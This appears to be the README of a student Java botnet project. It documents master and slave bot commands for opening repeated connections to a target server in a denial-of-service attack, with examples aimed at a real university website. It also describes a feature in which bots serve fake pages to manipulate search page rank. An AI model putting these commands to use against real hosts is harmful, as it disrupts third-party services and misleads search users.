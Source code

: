 Botnets Using Java
-----------------------
In this project, MasterBot commands the SlaveBots to perform Distributed Denial-of-service (DDos) attack on the target servers using java multithreading and socket concept.

-----------------------------------------------------------------------------------

To Run the program:

The master is started by using the following command:
java masterbot -p <port number>
Eg: masterbot -p 9000

The slavebot is connected to master by using the following command:
java slavebot -h localhost -p 9000
Eg: slavebot -h localhost -p 9000

------------------------------------------------------------------------------------

Once connected the master can provide commands to the slaves, as follows:
--> To list all the available slaves connected to the master
- list

--> To make the slave to have a connection to target host:
- connect (IPAddressOrHostNameOfTheSlave | all) (TargetHostName | IPAddress) TargetPortNumber [NumberOfConnections: 1 if not specified]

Examples:
// To generate single connection.
connect all www.sjsu.edu 80
// To generate multiple connection.
connect all www.sjsu.edu 80 2

--> To make the slave disconnect from target host:
- disconnect (IPAddressOrHostNameOfTheSlave | all) (TargetHostName | IPAddress) [TargetPort:all if no port specified]

Examples:
// To disconnect all slaves.
disconnect all www.sjsu.edu

--> To make the connect command to support keepalive option.
- connect (IPAddressOrHostNameOfTheSlave | all) (TargetHostName | IPAddress) TargetPortNumber [NumberOfConnections: 1 if not specified] [Keepalive]

Examples:
connect all www.sjsu.edu 80 Keepalive

--> To support the url option where the slave can generate an random string and attach to the url. Also, to drop all replies.
- connect (IPAddressOrHostNameOfTheSlave | all) (TargetHostName | IPAddress) TargetPortNumber [NumberOfConnections: 1 if not specified] [url = path to be provided to the web server]

Examples:
connect all www.sjsu.edu 80 2 url=/#q=
// This will generate the random string and attach to the url = www.sjsu.edu.

--> "Rise of fake bots and fall of the page-rank alogorithm"
- rise-fake-url [TargetPort] [URL]
Examples: rise-fake-url 8585 www.maliciouslink.com

Upon receiving the rise-fake-url command your bots will all behave like web servers at the specified port number and serve a virtual html page that will link then to two other virtual html pages, and each page will contain a link to the fake url with a text stating very important, key, "check this out!" and a number of keywords that will make anybody looking at it the link is important.

Upon receiving the rise-fake-url command, the bots:
* behave like web-servers at the specified TargetPort.
* serve virtual html page that links to two other virtual html pages.
* each page will contain a link to the fake url with text, "check this out!", which will make anybody looking at the link is improtant.
* So, the crawler will see a binary tree of fake pages, each containing 10 links to the fake url.

- down-fake-url [TargetPort] [URL]
Upon receiving the down command, all fake websites will be brought down by the docile bots which will not even respond to connections on the given port.






